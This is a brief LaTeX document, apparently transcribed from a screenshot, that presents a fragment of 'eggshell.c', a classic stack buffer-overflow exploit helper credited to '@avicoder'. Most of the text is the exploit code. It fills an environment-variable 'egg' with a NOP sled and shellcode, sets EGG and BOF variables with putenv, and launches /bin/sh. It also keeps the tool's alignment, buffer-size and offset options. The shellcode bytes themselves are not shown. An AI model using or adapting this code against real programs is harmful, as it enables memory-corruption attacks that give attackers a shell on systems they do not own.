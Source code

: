 \documentclass[a4paper]{article}
\begin{document}
\begin{listing}[H]
\begin{verbatim}


  ptr = egg;
  for (i = 0; i <= eggsize - strlen(shellcode) - NOP_SIZE; i += NOP_SIZE)
    for (n = 0; n < NOP_SIZE; n++) {
      m = (n + align) % NOP_SIZE;
      *(ptr++) = nop[m];
    }

  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  bof[bsize - 1] = '\0';	
  egg[eggsize - 1] = '\0';

memcpy(egg,"EGG=",4);
putenv(egg);

memcpy(bof,"BOF=",4);
putenv(bof);
system("/bin/sh");
}

void usage(void) {
	(void)fprintf(stderr,
	"usage: eggshell [-a <alignment>] [-b <buffersize>] [-e <eggsize>] [-o 	<offset>]\n");
}
\end{verbatim}
\caption{eggshell.c}
\label{listing:1}
\end{listing}





\textbf{Thanks}
@avicoder
\end{document}
